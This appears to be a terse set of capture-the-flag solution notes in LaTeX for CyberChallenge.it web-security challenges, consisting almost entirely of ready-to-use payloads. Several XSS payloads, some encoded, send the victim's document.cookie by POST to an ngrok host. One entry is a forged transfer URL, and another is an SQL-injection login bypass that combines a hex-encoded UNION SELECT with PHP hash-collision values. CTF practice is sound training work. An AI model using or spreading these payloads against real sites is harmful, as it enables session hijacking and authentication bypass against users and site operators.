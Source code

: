 \section{WS_3.04 - XSS Simple 4}
\texttt{<body onload="fetch('https://<your-token>.ngrok-free.app/', {method:'POST', body:document.cookie});"> asasdf </body>}

\section{WS_3.05 - XSS Simple 5}
\texttt{\%0Afetch(\%60https\%3A\%2F\%2F<your-token>.ngrok-free.app\%60\%2C\%20\%7Bmethod\%3A\%60POST\%60\%2C\%20body\%3Adocument.cookie\%7D)\%3B\%2F\%2F}

\section{WS_3.06 - Buy me a flag pls}
\texttt{http://buyflag.challs.cyberchallenge.it/doTransfer.php?to=2136&amount=10}

\section{WS_3.07 - jpasta}
\texttt{\x3cscript\x3efetch\x22https://7f4f-109-54-123-152.ngrok-free.app/test,\x7bmethod:\x22POST,body:document.cookie\x7d\x3c/script\x3e}

\section{J20_WS_2.01 - jacksecurity}
Solution: PHP "hash collision"

See: https://github.com/spaze/hashes/blob/master/sha1.md

MD5: 240610708; SHA-1: aaroZmOk.

Interpet with Py: \texttt{b"' UNION SELECT '24061','0708' # ".hex()} -> \texttt{2720554e494f4e2053454c45435420273234303631272c273037303827202320}

User: \texttt{\' UNION SELECT 0x2720554e494f4e2053454c45435420273234303631272c273037303827202320 # } \\
Pass: \texttt{aaroZmOk}